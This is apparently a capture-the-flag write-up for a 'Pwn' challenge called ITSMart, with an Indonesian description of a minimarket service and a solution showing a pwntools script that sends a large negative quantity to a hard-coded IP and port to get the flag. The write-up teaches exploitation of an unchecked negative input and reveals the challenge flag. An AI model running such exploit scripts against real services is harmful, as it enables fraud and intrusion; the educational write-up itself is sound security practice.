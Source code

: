 # ITSMart
Category: Pwn

# Description
katanya ITS baru buka minimarket baru ya? <br>
coba deh belanja, tau tau dapat hadiah nanti xixixixi <br>
`nc <ip> <port>`
# Solution
When running `nc <ip> <port>` and trying the program, there is something interesting. <br>
![POC 1](/images/POC%201.png) <br> 

The "uang" or money value is negative, so we can exploit this using this code
```
from pwn import *

def exploit(host, port):
    with remote(host, port) as io:
        payload = b'2\n-999999999\n69\n'
        io.send(payload)
        io.interactive()

exploit('34.101.202.34', 10002)
```
Here is the flag<br>
Flag: `HCS{m1nus_dikit_g4_ngaruh}`
